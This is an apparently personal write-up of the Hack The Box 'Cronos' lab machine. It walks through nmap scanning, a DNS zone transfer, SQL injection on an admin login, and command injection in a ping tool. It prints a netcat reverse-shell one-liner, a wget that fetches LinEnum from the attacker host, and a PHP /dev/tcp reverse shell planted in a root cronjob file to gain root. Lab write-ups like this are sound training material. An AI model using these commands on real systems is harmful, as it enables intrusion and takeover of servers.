








---
search:
  exclude: true
---
# Cronos Writeup

## Introduction :

Cronos is a medium Linux box released back in march 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/TenTen]
      → nmap -F 10.10.10.13
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-21 16:00 GMT
      Nmap scan report for 10.10.10.13
      Host is up (0.11s latency).
      Not shown: 97 filtered ports
      PORT   STATE SERVICE
      22/tcp open  ssh
      53/tcp open  domain
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 3.35 seconds
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/TenTen]
      → nmap -sCV -p22,53,80 10.10.10.13
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-21 16:01 GMT
      Nmap scan report for 10.10.10.13
      Host is up (0.10s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
      |   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
      |_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
      53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
      | dns-nsid:
      |_  bind.version: 9.10.3-P4-Ubuntu
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Apache2 Ubuntu Default Page: It works
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 16.20 seconds
    
      λ root [ 10.10.14.20/23 ] [nihilist/_HTB/TenTen]
      → echo '10.10.10.13 cronos.htb' >> /etc/hosts
    

## **Part 2 : Getting User Access**

As our nmap scan picked up port 53 running a DNS service, we'll use the host command to list the hosts in the domain :
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/TenTen]
      → host -l cronos.htb 10.10.10.13
      Using domain server:
      Name: 10.10.10.13
      Address: 10.10.10.13#53
      Aliases:
    
      cronos.htb name server ns1.cronos.htb.
      cronos.htb has address 10.10.10.13
      admin.cronos.htb has address 10.10.10.13
      ns1.cronos.htb has address 10.10.10.13
      www.cronos.htb has address 10.10.10.13
    

looks like we have 2 additional domain names to add to our /etc/hosts file : 
    
    
      λ root [ 10.10.14.20/23 ] [nihilist/_HTB/TenTen]
      → echo '10.10.10.13 admin.cronos.htb www.cronos.htb' >> /etc/hosts
    

` 

admin.cronos.htb looks interesting, let's see if we can have [sql injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/) : 

and we're in ! we have access to a badly written php script used to ping or traceroute, but we can get code execution as www-data by adding ** & <****command>**. So let's see if we can print out the user flag :

And that's it ! we have been able to print out the user flag.

## **Part 3 : Getting Root Access**

In order to privesc, let's first get a reverse shell but to do so, we must first check if netcat is on the box :

now that we know that netcat is on the box we can use this one liner and get a reverse shell, catching the incoming connection with another netcat instance running locally. 
    
    
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 9002 >/tmp/f
    

`

we hit execute and we get a reverse shell : 
    
    
      λ nihilist [ 10.10.14.20/23 ] [~]
      → nc -lvnp 9002
      listening on [any] 9002 ...
      connect to [10.10.14.20] from (UNKNOWN) [10.10.10.13] 36520
      /bin/sh: 0: can't access tty; job control turned off
      $ python -c 'import pty;pty.spawn("/bin/sh")'
    

Now that we have a TTY Shell, let's see if we can enumerate the machine with Linenum, but to do so we need to know if we can use wget / curl 
    
    
      $ which wget
      which wget
      /usr/bin/wget
      $ which curl
      which curl
      /usr/bin/curl
      $ cd /tmp
      cd /tmp
      $ wget http://10.10.14.20:8080/LinEnum.sh && chmod +x LinEnum.sh
      wget http://10.10.14.20:8080/LinEnum.sh && chmod +x LinEnum.sh
      --2020-02-21 18:50:39--  http://10.10.14.20:8080/LinEnum.sh
      Connecting to 10.10.14.20:8080... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 46631 (46K) [text/x-sh]
      Saving to: 'LinEnum.sh'
    
      LinEnum.sh          100%[===================>]  45.54K   222KB/s    in 0.2s
    
      2020-02-21 18:50:40 (222 KB/s) - 'LinEnum.sh' saved [46631/46631]
    
      $./LinEnum.sh
    

We can, therefore we execute LinEnum.sh after adding the executing right with chmod and looking at it's output we see that crontab executes a /var/www/laravel/artisan every minute as root.
    
    
      $ ls -lash /var/www/laravel | grep artisan
    ls -lash /var/www/laravel | grep artisan
    4.0K -rwxr-xr-x  1 www-data www-data 1.7K Apr  9  2017 artisan
    

To privesc on the machine, we'll modify the artisan file (which is a php file) to contain a reverse shell, we'll use the same reverse shell named nihilist.php that we used when we did [Popcorn](1.md)
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Cronos]
    → locate nihilist.php
    /home/nihilist/_HTB/Bastard/nihilist.php
    /home/nihilist/_HTB/Networked/nihilist.php.gif
    /home/nihilist/_HTB/Popcorn/nihilist.php
    /home/nihilist/_HTB/Popcorn/nihilist.php.gif
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Cronos]
    → cp /home/nihilist/_HTB/Popcorn/nihilist.php .
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Cronos]
    → nano nihilist.php
    
    
    
      #!/usr/bin/env php
      <****?php
    exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.20/1234 0>&1'");
    ?****>

once we're done modifying it , we upload it , wait for cronjob to execute it and get a reverse shell this time as root 

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Cronos]
      → python -m SimpleHTTPServer 7070
      Serving HTTP on 0.0.0.0 port 7070 ...
    
    

` _Terminal 2:_
    
    
      $ wget http://10.10.14.20:7070/nihilist.php
    --2020-02-21 19:05:59--  http://10.10.14.20:7070/nihilist.php
    Connecting to 10.10.14.20:7070... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 98 [application/octet-stream]
    Saving to: 'nihilist.php'
    
         0K                                                       100% 19.8M=0s
    
    2020-02-21 19:05:59 (19.8 MB/s) - 'nihilist.php' saved [98/98]
    
    $ cp nihilist.php artisan
    

` _Terminal 3:_
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Cronos]
    → nc -lvnp 1234
    listening on [any] 1234 ...
    connect to [10.10.14.20] from (UNKNOWN) [10.10.10.13] 40640
    bash: cannot set terminal process group (1580): Inappropriate ioctl for device
    bash: no job control in this shell
    root@cronos:~# cat /root/root.txt
    cat /root/root.txt
    17XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to get a reverse shell as root, and we have been able to print out the contents of the root flag. 

## **Conclusion**

Here we can see the progress graph :

